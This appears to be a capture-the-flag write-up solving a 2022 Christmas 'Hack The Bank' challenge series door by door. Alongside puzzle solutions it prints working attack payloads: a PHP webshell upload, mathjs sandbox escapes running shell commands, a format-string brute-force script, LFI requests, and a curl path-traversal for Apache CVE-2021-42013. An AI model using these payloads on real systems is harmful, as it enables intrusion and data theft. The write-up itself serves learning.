





# Hack The Bank
Christmas 2022 - https://htbxmas.newtechlab.wtf/

# Door 1 - Santa's Lap
> Our little ELFs have created a binary! Can you figure out how to get what you want for christmas?

Attached a [binary](./files/re-santa-1) and a host to connect to. Strings showed this:
```
***************************************************************
**************************RE SANTA 1 **************************
Please enter the correct input to get the flag:
%30s
S4ntaH4c3er
C1nd3rella
TheB1gGr1nch
Rud0lPTh3Hac3er
Nice job! are you %s?? Or Maby you are %s ?? Or could you be %s??
You do not have the correct password

```
A few strings to confuse, but it's probably the first one:
```
Please enter the correct input to get the flag:S4ntaH4c3er
Nice job! are you Rud0lPTh3Hac3er?? Or Maby you are TheB1gGr1nch ?? Or could you be C1nd3rella??
Ho Ho Ho! Your flag is: #{S4nta_1S_R1ch$€}
```

> `#{S4nta_1S_R1ch$€}`

# Door 2 - Hark now hear the emperor sing!
> Can you decode this cipher text? `JHtMMEFmcGd4N0tAeDRQMGtAbHh9`

Base64-decoded to: `${L0Afpgx7K@x4P0k@lx}`, which wasn't the correct flag despite it being in the flag format. The task name and the hint ("Basic romans...") made me loop through rotations though. Rot2 gave something more readable. 

> `${N0Chriz7M@z4R0m@nz}`

# Door 3 - Santa's Postcards
> So Santa wants some postcards from all you out there. But one tired developer elf has made a tiny mistake. Can you see if you can find Santa's secret message? 

Links to a website that has a large PNG. Spent way too much time trying to dig stuff out of the image (binwalk thought it had a sqlite-db embedded), but eventually took the hint: 
> Ok, are there any standard files like favicon.ico associated with websites?

robots.txt:
```
Disallow: /img/dbg
Disallow: /img/*
```

The `/img/dbg` path dumped the source code:
```python
from flask import Flask, Response, request, render_template, request, send_from_directory
from random import choice, randint
from functools import wraps
import uuid
lowercase = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z']
app = Flask(__name__)

def calc(recipe):
        global naughtylist
        naughtylist = {}
        try: exec(recipe, naughtylist)
        except: pass

def NaughtyList(func):
        @wraps(func)
        def federation(*args, **kwargs):
                stamp = str(uuid.uuid4()).replace("-","")
                naughtycalc = '%s = %s' % (stamp, ''.join(map(str, [randint(1, 1337), choice(['+', '-', '*']), randint(1,1337)])))

                if request.method == 'POST':
                        stamp = request.form.get('stamp', '')
                        naughtycalc = '%s = %s' % (stamp, request.form.get('naughtykid', ''))

                calc(naughtycalc)

                if naughtylist.get(stamp, ''):
                        return render_template('index.html', naughty=naughtylist[stamp])

                return func(*args, **kwargs)
        return federation

@app.route('/', methods=['GET', 'POST'])
@NaughtyList
def index():
        return render_template('index.html')
```
So this runs `exec()` on the `naughtycalc` variable and renders the page with `naughtylist[stamp]` as input.

The first stamp and naughtycalc in `federation` can be ignored, since we can overwrite the values entirely with a POST-request. Tested sending `stamp=kvakk&naughtykid=123` first to see what actually happened, and the site printed `123`. I didn't spend time looking for directory listings, and guessed they had a flag.txt: `stamp=kvakk&naughtykid=open('flag.txt').read()`

> `${N0_M0RE_CKR3TZ}`


# Door 4 - Wishlist Renderer
A page that renders markdown to HTML. Tried lots of standard SSTI variants, but didn't get anything to evaluate. Realized that it had to be something in the markdown itself that did file inclusion (still a SSTI, but not one of the usual ones). The only renderer I found with this ability is [MultiMarkdown](https://fletcher.github.io/MultiMarkdown-5/) with its [file transclusion](https://fletcher.github.io/MultiMarkdown-5/transclusion.html#filetransclusion).

I never got anything with `{{7*7}}` to work, because `7*7` isn't a filename. Using a file that exists actually does something: `{{/etc/password}}` gave me the passwd-file, but no flag. The hint was "No flag.txt this time... you need to find a very common *nix file... Seasons greetings to you all!"    Common + greetings = /etc/motd

> `${5@nta5_li77l3_h3lp3r!}`

# Door 5 - Xmas Party Planner

Found `attend.php` in the git history, and it's not actually deleted on the server.
```php
<?php
if(isset($_POST["submit"])){
    $fname = uniqid($_POST["submit"]);
    $file = fopen("./incoming/".$fname.$_POST["age"], "w");
    $txt = $_POST["name"]." ".$_POST["age"].$_POST["attend"]."\n";
    fwrite($file, $txt);
}
?>
```
Posted with paramters:
```
age="/../decoy.php"
name=<pre><?php system($_GET['cmd']); ?>
```
And got a webshell on incoming/decoy.php. Found the flag in /flag.txt

> `${W4@7_@_P@R7Y_PHP_M@K3Z!}`

# Door 6 - Naughty List Adm
> Check out yet another special binary: [re-santa-2](./files/re-santa-2)

Need to fetch a password from the binary and submit to a service to get the flag. The input is XORed and compared to a password. 

```C
for (i = 0; i < 15; i = i + 1) {
  if (((int)pwd[i] ^ (uint)(byte)(&KEY)[i % 4]) != (uint)(byte)(&SECRET)[i]) {
    return 0;
  }
}
```

```python
key = [ 0x41, 0x42, 0x43, 0x44 ] # ABCD
pwd = [ 0x09, 0x23, 0x35, 0x21, 0x18, 0x2d, 0x36, 0x06, 0x24, 0x27, 0x2d, 0x03, 0x71, 0x72, 0x27 ]
for i in range(len(pwd)):
    print(chr(pwd[i] ^ key[i % 4]), end='')
print()
```
Gives `HaveYouBeenG00d` as password.

> `${N@u647y_1i57_3v@d3d}`

# Door 7 - Santas Presents
> See if you can figure out to get Santa's present early...
> Hint: Well passwords are obsolete right?

The webpage has a comment with a long integer: 92706446560948009279782559541942421090352568584109452582172344770401293930185

```python
from Crypto.Util.number import long_to_bytes
from binascii import hexlify
n = 92706446560948009279782559541942421090352568584109452582172344770401293930185
print(hexlify(long_to_bytes(n)))
```
This results in `ccf5fd41ec247019be2a322fde33eb923a7cd3405d119a92a4baac7815218ec9`, which [crackstation](https://crackstation.net/) can help us with: `IAmInvincible`
Using this as the password on the webpage returns a [password.zip](./files/password.zip). The password for this file can not be found in rockyou.txt. Tried various permutations around the hint, magic words, christmasy things etc without any luck. Downloaded the huge password-file from Crackstation, and that worked: `ChristmasEve`

> `${W@5_74|5_4@RDR?}`

# Door 8 - DJ Santa
> So Santa has got a part time gig DJing for Norwegian christmas parties!
You know them peeps need some monster grooves...
Hint: Well time to google DSP, and what a Drill Sgt might say...

Provided an [mp3](./files/dj_santa/SantasGroovyTheme.mp3) that sounds normal. Lots of time wasted in Audacity until the effect "Vocal Reduction and Isolation" was applied with standard settings:



> `${5@n7@s_607_6r00V3!}`


# Door #9 - Sleigh Firmware Hack
> So Santa is having his sleigh fitted with some custom upgrades. This seems like the perfect opportunity to sneak in a little customization of your own. Like a tracking chip, activated by the sleighs mcu firmware. If only you could figure out where this sleigh repair shop is... All you have is this selfie Santa posted on elfieGram to go on... Is that Antarctica?

> Hint: Hidden things can be easy to just stumble upon. But some things you need to dig a bit deeper to find the answer beyond. Then when you reach the gates of hell, you need to open them up using your magic spell. Once you finally see the light, your answer will there in plain sight!

The attached [southpoleselfie.png](./files/firmware_hack/southpoleselfie.png) seems to be full of goodies:

```
~/dnb ❯❯❯ strings southpoleselfie.png|grep -i azure
http://southpolecustoms.norwayeast.azurecontainer.io:1338/%PDF-1.7
```

The URL gets us an emulator:


The only thing I can change appears to be the DIP-switch on the upper left, and writing the eeprom (lower left) triggers a POST request with those 16 bits.

Extracting from the location of the `%PDF-1.7` header that followed the URL I found [a pdf](./files/firmware_hack/logicgates.pdf) containing information about "TTL Logic Gates".

```
~/d/luke9 ❯❯❯ binwalk -R "\x25\x50\x44\x46\x2d\x31\x2e\x37" --dd="raw" southpoleselfie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
5337987       0x517383        Raw signature (\x25\x50\x44\x46\x2d\x31\x2e\x37)

```
Found another image in the file too, this one had the circuit:


So now I just had to backtrack from the LED to get the correct setting for the switch `0110010101010101`. The flag was scrolled in the dot-matrix but without the proper formating. The JSON-response had the entire flag:

> `${SLEIGH_TRACKER_DEPLOYED}`

# Door 10 - Wishlist Cracking
> So I managed to get a hold of my sister's wishlist! But it seems to be encrypted by something. Maybe she used the wishlist tool from Santa's github page? I compiled it for you here...

Got a [binary](./files/re-santa-3) and an [encrypted file](./files/re-santa-3.flag). Ran the binary and gave it known input. XORed the result with the known input, and did the same with the flag.

> `${W1547157_15_C0mpr0mi53d:(}`

# Door 11 - DJ Oilers Theme
> Ok, so DJ Santa has gotten a guest artist to contribute to his yearly Christmas Rave Party. DJ Oiler has created this hot track for your enjoyment! But what can you do with this ting?
> Hint: Sing it! Crypto stego constant pain!

Got an mp3 file. Binwalk gives absolutely nothing on this file. Exiftool has some info:
```
Artist URL                      : aHR0cDovL2Rqb2lsZXJsb2NrLm5vcndheWVhc3QuYXp1cmVjb250YWluZXIuaW86MjY3NC8=
Band                            : DJ Oiler
Conductor                       : 3fe1406a8254afd471de2bdd53483501f947004cd3d174e6a607648638ae1a3e
Initial Key                     : C Major
```

Artist URL is base64-decoded to [http://djoilerlock.norwayeast.azurecontainer.io:2674/](http://djoilerlock.norwayeast.azurecontainer.io:2674/) where we are met with what looks like three locks.

The `conductor` tag is a sha256 hash that crackstation resolves to `interval`. That doesn't work as a code, so maybe it's a hint about how stuff is stored in the mp3? I'm guessing that "DJ Oiler" is a reference to Euler, and he seemed interested in applying math to music - especially intervals. But I have no clue on how to take this further.

Update: It's almost Christmas, and I have given up on this thing, so I'm trying a brute-force on the webpage. Should have done that sooner - the codes are trivial (took only 5 minutes). The three codes needed to unlock are PI, E, and TAU. Mathematical constants. So I was supposed to calculate interval between notes and get the numbers for the constants, and then write their names as codes...

> `${74@7_15_5uM_K3wL_c0n57@n7_7un35!}`

# Door 12 - Santas Blog
> So Santa is quit the avid blogger... But what secrets can this site reveal, other than the crazy life of Santa Claus?

A website running ASPNet-stuff on a linux host with Kestrel as the webserver. LFI on `/Post?id=`. Went through more digging in asp-files and the linux filesystem than I really want to admit before looking for the Kestrel configuration:

```
GET /Post?id=../appsettings.json HTTP/1.1
...
{
  "Logging": {
    "LogLevel": {
      "Default": "Information",
      "Microsoft.AspNetCore": "Warning"
    }
  },
  "AllowedHosts": "*",
  "Flag": "${5@N7@<em>5UR3</em>1|V35<em>@</em>CR@ZY_7|F3!!!!}"
}
...
```
The flag got HTMLified by the Razor template engine, so I had to replace `<em>`-tags with `_` to get the proper flag. Still a bit nervous when I submitted - this l33tspeek isn't very readable.

> `${5@N7@_5UR3_1|V35_@_CR@ZY_7|F3!!!!}`

# Door 13 - Bad Grinch!

Got a [binary](./files/grinchisbad) and a remote service that runs it.

```C
  local_10 = *(long *)(in_FS_OFFSET + 40);
  flaggHolder[0] = "${IStole0xDEADBABE}";
  flaggHolder[1] = "${PleaseDontEatMe!}";
  flaggHolder[2] = "${IWonderWhere0xCAFED00DIs}";
  flaggHolder[3] = "${ILeftAGoodJobAtThe0x0FF1CE}";
  local_158 = "${RunRunRudolph!}";
  local_150 = "${WhyIsThisHere?}";
  local_148 = "${IReallyLoveDJOiler}";
  local_140 = "${ComeOnAndFlyWithSanta!}";
  local_138 = "${CatNipForAll!}";
  tVar2 = time(&local_180);
  srand((uint)tVar2);
  iVar1 = rand();
  printf("Do you know where the Grinch is? ");
  fgets(input_buffer,256,stdin);
  printf("\nMaybe so, I don\'t know, ");
  echo(input_buffer);
  puts(flaggHolder[iVar1 % 9]);
```

Lots of things formatted as a flag here, but they are fake. Not really clear where the flag is, but that `echo()` is just `printf`, which is vulnerable to format strings so I'll try mapping the stack.  I really have no idea what I'm doing or what I'm looking for, so I brute-force:

```python
from pwn import *
context.log_level = "CRITICAL"

def check(i):
  s = f"%{i}$s"
  r = remote('grinchisbad.norwayeast.azurecontainer.io', 2424)
  r.recvuntil(b"Grinch is?")
  r.sendline(s.encode("utf-8"))
  try:
    r.recvuntil(b"Maybe so, I don't know,", timeout=1)
  except:
    return
  try:
    data = r.readline(timeout=2).decode("utf-8")
    if not data or data.strip() == "(null)": return
    print("%04d %s"%(i,repr(data)))
  except:
    return
  r.close()
  return data

for i in range(100):
  check(i)
```

Eventually we get into environment variables, and found the flag in CKRET_FLAG.

> `${Grinch_Stole_My_0xD15C0BABE!}`


# Door 14 - Santas Coding Console
> So if you remember reading Santas blog, Santa has taken up coding!
His first attempts didn't go so well, but now he finally created his own funny compiler!

> Hint: I wonder what we are looking at here John...

The console translates everything to emojis, and gives you "syntax error" for pretty much anything you enter. But it seems to count sequential numbers: 11 turns into 21, 1337 into 112317. This is apparently called a [Look-and-say sequence](https://en.wikipedia.org/wiki/Look-and-say_sequence):
> The look-and-say sequence was analyzed by John Conway after he was introduced to it by one of his students at a party.

They are infinite, but we were supposed to guess that they are not on this server.

```python
for seed in range(0,10):
    code = {"code":str(seed)}
    while True:
        r = requests.post(url, json=code)
        if r.status_code == 413: break
        res = r.json()
        if res.get("status") != "NOFLAG":
            print(res)
            sys.exit()
        code = {"code": res.get("result")}
```

Eventually it spat out 
> {'result': '💰🔒🍇💬🏤🍒💬🍇🔻🤪🍑🤑🏏🔻😈🍇🔻👾🍑🍓🚡🍇🔻😈🔻🤪🔻🍑🎢🤑🏏🙈🤑🤪🍑🤑🏏❕🔓', 'status': 'FLAG'}

Translate back (lookup-table is in the web sourcecode):

> `${5@N7@5_C0DE_I5_B06U5_I_C_0xDEADC0DE!}`


# Door 15 - Grinch's Special Calculator
> So the Grinch is trying to do some coding as well, and he has built this lovely scientific calculator!  Can you find the hidden secret?
> Hint: Maybe you need to know alot about maths... or maybe trig?

A webpage with a backend that does math.

Sending just `[]` as the expression gives something interesting:
```json
{"result":{"mathjs":"DenseMatrix","data":[],"size":[0]}}
```

So mathjs. Their webpage has an example of how to do a more [secure eval](https://mathjs.org/examples/advanced/more_secure_eval.js.html), but the example function `parse("2+3")` isn't blocked here, so that's a major hint. More googling on mathjs rce finds [https://jwlss.pw/mathjs/](https://jwlss.pw/mathjs/) which has some nice examples:
```json
{"exp":"cos.constructor(\"return process.env\")()"}
```
This gave me the environment variables. No flags there this time, so we keep looking. I finally found out how to read files:
```json
{"exp":"cos.constructor(\"return process.mainModule.require(\\\"fs\\\").readFileSync(\\\"/etc/passwd\\\").toString()\")()"}
```
But I couldn't find the flag, so I wanted to run commands:
```json
{"exp": "cos.constructor(\"return process.mainModule.require(\\\"child_process\\\").execSync(\\\"ls -la\\\").toString()\")()"}
```
Digging with web-requests was too cumbersome, so I started a reverse shell. Finally found the flag in the source code of the app:
```
# cat index.js
cat index.js
const math = require("mathjs");
const express = require("express");
const path = require("path");
const flag = "${#N3V3R_7RU5T_L|B5_743Y_@R3_3V|7}";
const app = express();
app.use(express.json());
app.use(express.static(path.join(__dirname, "static")));
app.post("/evaluate",(req,res)=>{
    if(!req.body.exp){
        res.status(400).json({"error":"You need to send the expression as the exp query parameter..."});
    }
    try{
        let result = math.eval(req.body.exp);
        res.status(200).json({"result": result});
    } catch(error){
        res.status(400).json({"error":error});
    }
});

app.listen(80, ()=>{
    console.log("Up!");
});
```

> `${#N3V3R_7RU5T_L|B5_743Y_@R3_3V|7}`

# Door 16 - Santas Bingo!
> So Santa decided to give you an early Christmas present! All you have to do is guess a value! Easy right?

Guessing game that show us the source code:
```php
include 'config.php'; 

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("Ha ha ha! You didn't say the magic word!! And this is not a Unix System... oh wait...");
}

if (isset($_GET['test'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $msg = 'Yay! The flag is: ' . FLAG;
  } else {
    $msg = 'Too bad...';
  }
}
```

So getting the flag by guessing the number is impossible. But the code that shows the source code use `$_SERVER['PHP_SELF']`, which can be manipulated. Calling the webpage as `/index.php/config.php?test` will actually use index.php and `basename()` will give us "/config.php". PHP is a mess. But I am prevented from going directly to config.php by that `preg_match`. 

To bypass the regex this note in the [PHP Manual](https://www.php.net/manual/en/function.basename.php) is useful:
> Caution: basename() is locale aware, so for it to see the correct basename with multibyte character paths, the matching locale must be set using the setlocale() function. If path contains characters which are invalid for the current locale, the behavior of basename() is undefined.

So adding `/%80` will be stripped by `basename()`, and is enough to get us past the regex. Reading config.php with the flag:
```
GET /index.php/config.php/%80?test
```

> `${M@n_5@n7@_5ur3_Luvz_P4P_Y3t_I_4@73_I7!!!}`


# Door 17 - Oilers Symphony
> So santa just got this outline for DJ Oilers symphony! It is a work in progress... so don't judge him to harshly...
> hint: Wov that music sounds... rough. Definitely not up to code...

Got a [midi file](./files/oilerstrack.mid) this time. Parsing the midi-codes in the file as ascii characters printed this:
```
Well I guess half a flag is better than no flag...
${4@1F_w@y_p0in7
Hope you find the rest...
```

The track has some MetaMessages. These two at the top:
```
  MetaMessage('track_name', name='From Oiler With Love', time=0),
  MetaMessage('text', text='0Cbdf0', time=0),
```

This about 2/3 into the song:
```
  MetaMessage('text', text='Hod0cbCb', time=960),
```

And this at the bottom:
```
  MetaMessage('text', text='0o``0o`_?eN', time=25920),
```

The last one is confusing. Not sure if the time-value is supposed to be used for anything, or if it's just set by the library I'm using. There is no time-info encoded in the midi format as far as I can see. 

Aha! After reading writeups on door 18 I realized that Santa loves rot47.  The meta-messages after rot47: `_r357_w@5_43r3_@11_@10n6}`

> `${4@1F_w@y_p0in7_r357_w@5_43r3_@11_@10n6}`

# Door 18 - Grinch Files

[gzipped file](./files/grinchfiles.gz) with a little bit of everything inside.

Docs/drunk.docx is really a jpeg with author tag: `WCH says: KNGEUQCGOBBTM7KAIVZUAPZWFI3EKTQ=` Base64 result is just gibberish. Probably need a key. WCH = WorkingClassHacker - the CTF author. Best guess is base32? `SLJ@FpC6}@Es@?6*6EN`.. still gibberish.

* key.pdf is corrupted as a PDF, but it looks to be a PNG with wrong header?
* .secret/batter.png is a picture of a santa with a bat.
* .secret/.docs contain 36k files with encoded names.
* Images/ has 3 png files. One of them is "batter2.png" - looks like the same picture as batter.png, but it's not.

Diffing the two batter pictures reveals a hint: "Not All your base belongs to 64".
Tried both filenames and the jpeg-thing again with what Chef had to offer, but nothing.

The `photos` directory has one big image, and then 64 smaller images cut from that one. Or is it? I can see parts of the flag in the big one, so I guess I have to assemble the pictures and diff them? I assembled the small pics, but I don't see any difference. Is this just a red herring? 

Trying to guess parts of the flag and use Photoshop instead of stegonline I was able to make sense of it and grab the flag.  Tons of red herrings here, and I don't think this was the intended solution. I think I should have fixed key.pdf and used that to extract the flag properly.

The filenames in ./secret/.docs and the base-hint still puzzles me.

> `${43y!_743_6r|nc4_57013_my_p|c5!!!!}`

# Door 19 - Grinch Serial Killer

> So we have identified all the villains through Santas Blog. Here are the 10 most wanted characters on the North Pole!
> Hint: There was 5941 applicants to this list... go figure.... sounds a bit UNcivilized...

Webpage that takes no input, and show a list of images w/text. It sends a short-lived cookie "package" that base64-decodes to
```json
{"username":"santa","country":"northpole","city":"elfville"}
```

At first the webpage just showed "logged in as =username", but it was later updated to actually show the name in the cookie.

The JSON data matched what I found on [https://blog.websecurify.com/2017/02/hacking-node-serialize](https://blog.websecurify.com/2017/02/hacking-node-serialize) and it seems like we have a RCE here.

> This means that if we create a JSON object with an arbitrary parameter which contains a value that begins with _$$ND_FUNC$$_ we get remote code execution because it will eval. To test this we can use the following setup.

Used [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create a reverse shell. Found the flag in /flag.txt:

> `${W0V_53RI@7_KI113R5_C@N_B3_D3@D7Y!}`


# Door 20 - SantaRoids
A cool asteroid game! It sets a cookie called `encouragement` that says "Well 0 is a nice score and all, but not breaking any records or anything....". So we're hunting a highscore.

The game is client-side, but it posts an array of your score, downed astroids (da) and spawned astroids (sa) to a `/sign`-endpoint that returns a signature if it accepts the score. The signature is added to the array and posted to `/gameover`.

Reading the javascript I see that `score` and `da` always increase with one and `sa` increase with two (since they split on hits). I tried posting a suitably large number to `/sign`: `[10000000000,10000000000,20000000000]` and got a signature back. Posting that to `/gameover` returned:
```json
{"msg":"World Record Achieved!"}
```
It also set a `prize` cookie that had a new URL to `/flag?sig=xxx` with a new signature-blob. Fetched that and got a Base64 result which was an obfuscated javascript. Recognized it as JSfuck and used [de4js](https://lelinhtinh.github.io/de4js/) to deobfuscate: 
```js
let data = Buffer.from('JHtXMFZfWTBVX0pVNTdfQlIwSzNfNzQzX1cwUjFEX1IzQzBSRCEhIX0=', 'base64');
console.log(data.toString('ascii'));
```

That printed the flag. Now it's time to play astroids :)

> `${W0V_Y0U_JU57_BR0K3_743_W0R1D_R3C0RD!!!}`

# Door 21 - Santas Lottery
> So Santa wanted to launch a lottery service on the North Pole. Can you have a look and see if you can win?
> Hint: How do PRNGs work again?

Webpage where we have to guess a random number. The guessing page has a hidden field with a UUID. The page is delivered with Kestrel webserver so I assume it's written in .NET, and sure enough when you guess wrong there is a hint on the `/wrong`-page:
```html
<!-- Tests broke every time we ran this, so I discovered this about .NET Core: https://andrewlock.net/why-is-string-gethashcode-different-each-time-i-run-my-program-in-net-core/ It was very helpful! Now the tests all pass! -->
```
The [website](https://andrewlock.net/why-is-string-gethashcode-different-each-time-i-run-my-program-in-net-core/) shows an implementation for getting the same hashcode from a string across .NET versions.

I had tried importing the UUID with `GUID.Parse()` but that didn't seem to work. The hint indicates that Santa is using that custom function to parse the UUID as a string.

I wasted over an hour with Visual Studio 2019 before I realized that `Random.Next()` returned Int32, and Santa specifically said Int64. I needed to install Visual Studio 2022 to get a newer .NET version that provided `.NextInt64()`. Once that was in place the code ([full source](./files/door21.cs)) was working:

```C#
  var seed = args[0].GetDeterministicHashCode();
  var r = new Random(seed);
  Console.WriteLine(r.NextInt64());
```

> `${W3_4@V3_@_V3RY_1UCKY_B@57@RD!}`

# Door 22 - Santa's Coding Workshop Showcase
> Santa's starting to get more serious into coding. He is now really invested in learning graphics and game programming. After he found that awesome graphics library, he has been quite a productive coder! Check out all his nice computer generated imagery here:
> Hint: Now where can the vulnerability be hiding? Is it in one of the games or graphics demos? And wasn't this a pwn chall? Where is my bin?

Lots of nice graphics stuff here, but nothing seems to call a server function. The comment on the main page is interesting: `<!-- Man I dig Apache! -->`. So I finally notice the Apache version (2.4.49). CVE-2021-42013 - Path Traverse and RCE. No need for RCE since the flag was conveniently located in /flag.txt:

```
curl $'http://santascodingworkshop.norwayeast.azurecontainer.io/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt'
${74I5_I5_W4Y_W3_C@N7_4@V3_NIC3_74IN65:@:@:@:@}:
```

> `${74I5_I5_W4Y_W3_C@N7_4@V3_NIC3_74IN65:@:@:@:@}`

# Door 23 - Santas Disco
> It's happening!! On OCT 31 the annual North Pole Rave will kick off! And DJ Oiler is releasing his new album!

Webpage with nothing of interest on it. But this one runs Tomcat 8.5.0. First hits on google sendt me down a [rabbithole of JSESSION serialization troubles](https://romanenco.medium.com/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4). I had file upload via PUT (but couldn't upload .jsp-files), and kept looking for the exact path of tomcat. Spent hours.

